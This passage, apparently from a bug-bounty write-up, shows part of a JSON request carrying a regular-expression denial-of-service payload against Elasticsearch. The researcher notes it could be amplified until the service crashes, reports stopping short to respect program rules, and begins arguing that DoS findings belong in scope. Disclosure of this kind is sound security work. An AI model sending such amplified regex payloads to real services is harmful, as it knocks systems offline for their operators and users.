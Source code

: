 ```json
,7}{0,7}{0,7}{0,7}{0,7}{0,7}{0,7}{0,7}{0,7}{0,7}{0,7}{0,7}{0,7}{0,7}{0,7}{0,7}{0,7}{0,7}{0,7}{0,7}{0,7}{0,7}{0,7}{0,7}{0,7}{0,7}{0,7}{0,7}{0,7}{0,7}{0,7}{0,7}{0,7}{0,7}{0,7}{0,7}{0,7}{0,7}{0,7}{0,7}{0,7}{0,7}{0,7}{0,7}{0,7}{0,7}{0,7}{0,7}{0,7}{0,7}{0,7}{0,7}{0,7}{0,7}{0,7}{0,7}{0,7}{0,7}{0,7}{0,7}{0,7}{0,7}{0,7}{0,7}{0,7}{0,7}{0,7}{0,7}{0,7}{0,7}{0,7}{0,7}{0,7}{0,7}{0,7}{0,7}{0,7}{0,7}{0,7}{0,7}{0,7}{0,7}{0,7}{0,7}{0,7}{0,7}{0,7}{0,7}{0,7}{0,7}{0,7}{0,7}{0,7}{0,7}{0,7}{0,7}{0,7}{0,7}{0,7}{0,7}{0,7}{0,7}{0,7}{0,7}{0,7}{0,7}{0,7}{0,7}{0,7}{0,7}{0,7}{0,7}{0,7}{0,7}{0,7}{0,7}{0,7}{0,7}{0,10}$/  ? false : false",
"params":{
   "x":"aaaaaax"
}
```

<figure><img src="../.gitbook/assets/Screenshot_2022-10-08_at_4.33.56_PM (1).png" alt=""><figcaption></figcaption></figure>

Clearly, we could continue adding more `{0,7}` to the regex to strengthen the payload until it crashes the Elasticsearch service. To respect the program rules against performing DoS attacks, I did not test any payloads stronger than this.

### Attacker Leverage and My Philosophy on DoS

Alas, this adventure only served to fuel my ongoing gripe with the status quo of classifying all DoS issues as out of scope in bug bounty programs.

<figure><img src="../.gitbook/assets/Screenshot 2023-07-11 at 2.07.17 AM.png" alt=""><figcaption></figcaption></figure>
